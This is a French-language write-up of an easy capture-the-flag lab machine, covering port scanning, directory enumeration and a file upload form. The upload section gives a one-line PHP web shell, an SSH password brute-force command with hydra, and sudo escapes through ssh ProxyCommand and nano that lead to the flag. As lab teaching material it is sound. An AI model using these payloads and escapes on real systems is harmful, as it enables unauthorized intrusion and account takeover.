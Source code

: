 # Write up ctf facile 1 

## Etape 1 :  Analyser Réseau

Premièrement on effecture une analyse du réseau de la machine afin de voir quels ports sont ouverts : 

```bash
nmap 172.30.150.47
```

Résultat :

![Resultat nmap](1.PNG)

On constaste qu'il y a le port ssh d'ouvert et un service web, allons voir de ce coté ! 

![Resultat nmap](2.PNG)

On constate que c'est la page par défaut de appache, nous allons voir si il n'y a pas des fichier ou des redirections cachées avec l'outil ` gobuster `

```sh
gobuster dir -u http://172.30.150.47/ -w /usr/share/wordliste/dirbuster/directory-list-2.3-medium.txt -x .php,.html -t 40
```

| Paramètre | Signification |
|------------|---------------|
| -u          |   url du site          |
| -w          |   liste de mot à utiliser             |
| -x          |  extension de fichier à regarder              |


Il y a 3 url possible et accessible /uploads/ qui est un répertoire, /upload.php, et /index.html sur le quel nous somme déjà, allons voir du coté du /upload.php 

![Resultat nmap](3.PNG)

Nous arrivons sur une page basique où nous pouvons uploads des fichiers, on va voir si il accepte des script php où fait attention à l'extension du fichier. 

![Resultat nmap](4.PNG)

On va essayer d'upload me script php suivant qui permettra d'effectuer des commandes bash dans l'URL du site voir si cela fonctionne

```php
<?php echo "<pre>"; system($_GET["cmd"]); _halt_compiler() ?>
```
Et on se rend compte que cela fonctionne comme montrer sur la capture d'écran 

![Resultat nmap](5.PNG)

On voit qu'il y a 3 utilisateurs qu'on va devoir attaquer de part leur nom. (ctf-challenge)

On va essayer de bruteforce le premier utilisateur via hydra

```sh
hydra -l ctf-challenge-01 -P /usr/share/wordlist/rockyou.txt -f -t 50 -V 172.30.150.47 ssh
```

| Paramètre | Signification |
|------------|---------------|
| -l         |   nom utilisateur         |
| -p          |   liste de mot à utiliser             |
| -f          |  stop dès qu'il a trouver le mdp              |
| -t         |  nombre de thread           |
| -V         |  URL         |

On trouve ainsi le mot de passe `hellokitty` et on peut se connecter en ssh 

![Resultat nmap](6.PNG)

On regarde si par hasard on ne pourrait pas exécuter des commandes avec sudo, on se rend compte que l'on peut utiliser des commandes sudo /bin/ssh via l'utilisateur ctf-challegnge-01-1. Après une recherche internet on trouve l'exploit suivant :

```sh
sudo -u ctf-challenge-01-1 /bin/ssh -o proxyCommand=';sh 0<&2 1>&2' x
```

On arrive donc sur le terminaml en tant que ctf-challenge-01-1 et on refait la même procedure avec le `sudo -l`

![Resultat nmap](7.PNG)

Cette fois si on peut executer en tant que ctf-challenge-01-02 via sudo la commande nano, on va essayer d'ouvrir des fichier qui sont sur le dernier utilisateur notament un flag.txt que l'on retrouve sur le home et on obient ainsi le flag

La commande a excécuter : 

```sh
sudo -u ctf-challenge-01-2 /bin/nano /home/ctf-challenge-01/flag.txt
```

![Resultat nmap](8.PNG)